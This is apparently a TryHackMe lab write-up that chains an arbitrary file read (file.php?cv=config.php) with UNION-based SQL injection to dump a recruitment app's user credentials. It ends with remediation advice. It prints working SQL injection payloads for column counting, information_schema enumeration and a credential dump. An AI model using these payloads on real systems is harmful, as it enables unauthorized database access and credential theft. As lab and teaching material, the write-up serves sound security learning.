# Recruit — TryHackMe Write-up

> **Room:** [SQL Injection Introduction](https://tryhackme.com/room/sqlinjectionintroduction)  
> **Focus:** Web enumeration, local file inclusion, and UNION-based SQL injection  
> **Disclaimer:** This write-up documents activity performed in an authorized TryHackMe lab. Do not test these techniques against systems you do not own or have permission to assess.

## Overview

The Recruit application exposes two major vulnerabilities. The `file.php` endpoint can read local files, which discloses the HR login credentials, while the authenticated candidate search is vulnerable to UNION-based SQL injection. Chaining these issues provides access to the dashboard and allows the application's database contents to be enumerated.

Flags and sensitive answers are intentionally redacted.

## Reconnaissance

After starting the target and connecting through the TryHackMe VPN, I scanned the host with Nmap:

```bash
nmap -sC -sV 10.49.152.230
```

The scan identified three open ports:

| Port | Service | Version |
| ---: | --- | --- |
| 22/tcp | SSH | OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 |
| 53/tcp | DNS | ISC BIND 9.16.1 |
| 80/tcp | HTTP | Apache httpd 2.4.41 |

Browsing to the web server revealed a Recruit login page.



Basic SQL injection payloads did not bypass the login form, so I followed the **Access API** link instead.



The FAQ disclosed an endpoint that accepts a URL-like value:

```text
/file.php?cv=<URL>
```



## Content discovery

I used `ffuf` to look for additional files and directories:

```bash
ffuf -u http://10.49.152.230/FUZZ \
  -w /usr/share/wordlists/dirb/big.txt -s
```

```text
.htaccess
.htpasswd
assets
javascript
mail
phpmyadmin
server-status
sitemap.xml
```

The sitemap confirmed several known routes and highlighted `/mail`. Inside that directory, `mail.log` contained an operational note about the HR account. It also clarified that the credentials were stored in the application's configuration file, making password brute-forcing unnecessary.



## Arbitrary file read

The `cv` parameter is passed to a server-side file-reading function without sufficient validation. Supplying a local path therefore allows files readable by the web-server process to be returned to the client.

I used the endpoint to request the application's configuration file:

```text
http://10.49.152.230/file.php?cv=config.php
```

The response disclosed database configuration and the temporary HR credentials. This is an arbitrary file-read/local file inclusion issue: user-controlled input determines which server-side file is loaded.



I then logged in as `hr` using the disclosed password and reached the candidate dashboard, which revealed the first flag.



## SQL injection in candidate search

The dashboard includes a candidate search field. Entering a single quote caused the application to return a MySQL syntax error, confirming that the value was being inserted into a query unsafely.



### Determining the column count

Before using `UNION SELECT`, I determined how many columns the original query returns. I incremented the `ORDER BY` index until the application produced an error:

```sql
1' ORDER BY 1-- -
1' ORDER BY 2-- -
1' ORDER BY 3-- -
1' ORDER BY 4-- -
1' ORDER BY 5-- -
```

`ORDER BY 4` succeeded, while `ORDER BY 5` failed with an unknown-column error. The original query therefore returns four columns.



### Identifying the database

With the column count known, I used MySQL's `database()` function:

```sql
1' UNION SELECT 1,2,3,database()-- -
```

The fourth column was reflected in the page and revealed the active database as `recruit_db`.



### Enumerating tables

Next, I queried `information_schema.tables` for tables in the current database:

```sql
1' UNION SELECT 1,2,3,
group_concat(table_name)
FROM information_schema.tables
WHERE table_schema='recruit_db'-- -
```

This returned two tables:

- `candidates`
- `users`



### Enumerating columns

I queried `information_schema.columns` to list the columns in `users`:

```sql
1' UNION SELECT 1,2,3,
group_concat(column_name)
FROM information_schema.columns
WHERE table_schema='recruit_db'
  AND table_name='users'-- -
```

The result included the security-relevant `username` and `password` columns.



### Dumping credentials

Finally, I concatenated each username and password into the reflected column:

```sql
1' UNION SELECT 1,2,3,
group_concat(username,':',password SEPARATOR '<br>')
FROM users-- -
```



If any of the SQL injection steps were confusing, I recommend going through TryHackMe’s SQL Injection Introduction room first:
https://tryhackme.com/room/sqlinjectionintroduction

The query exposed the application users and their plaintext passwords. The recovered administrator credentials allowed me to authenticate as the privileged user and retrieve the final flag.

## Security impact

These findings compound one another:

1. The file-read vulnerability exposes application secrets and valid login credentials.
2. The disclosed credentials provide authenticated access to the dashboard.
3. SQL injection in the dashboard exposes the full contents of the database.
4. Plaintext password storage turns a database disclosure into immediate account compromise.

## Remediation

- Replace string-built SQL queries with prepared statements and bound parameters.
- Validate the `cv` parameter against a strict allowlist of expected resources; do not pass arbitrary user input to file-loading functions.
- Keep configuration files and logs outside the web root and prevent them from being served by the web server.
- Remove credentials and other secrets from logs.
- Store passwords with a modern password-hashing algorithm such as Argon2id or bcrypt, using a unique salt for every password.
- Return generic user-facing errors and log detailed database errors only on the server.
- Rotate every credential exposed by the configuration file or database.

## Conclusion

The room demonstrates why seemingly separate weaknesses must be considered as an attack chain. An arbitrary file read provided the initial credentials, an authenticated SQL injection exposed the database, and plaintext password storage greatly increased the impact of that disclosure.
